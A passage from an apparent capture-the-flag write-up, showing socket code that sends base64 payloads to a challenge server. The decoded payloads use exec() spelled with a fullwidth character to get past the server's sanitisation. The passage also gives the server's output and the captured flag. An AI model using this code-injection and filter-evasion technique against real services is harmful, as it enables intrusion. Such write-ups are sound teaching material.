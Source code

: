 ```py
con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKCInKX0=") # a += "("
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKSInKX0=") # a += ")"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGI7Yj17YX0nKX0=") # b = exec(a)
time.sleep(1)
print(con.recv(4096).decode())

con.send("eyJ1c2VyX25hbWUiOnN0cihiKX0=".encode()) # print(b)
#con.send(b"eyJ1c2VyX25hbWUiOnN0cihhKX0=") # print(a)
time.sleep(1)
print(con.recv(4096).decode())
```

```
username not found
Please give your username for the leaderboard

username not found
Please give your username for the leaderboard

No existing score for ECW{1NC0RR3CT_S4N1T1Z4T10N}

Please give your username for the leaderboard
```

And here we got the flag.

For those who wonder why I didn't automate something with a loop, there is 2 reasons, firstly it was late and I prefered to do a writeup on how I flaged the challenge the first time, secondly base64.b64encode does shit when you give hime the ｅ.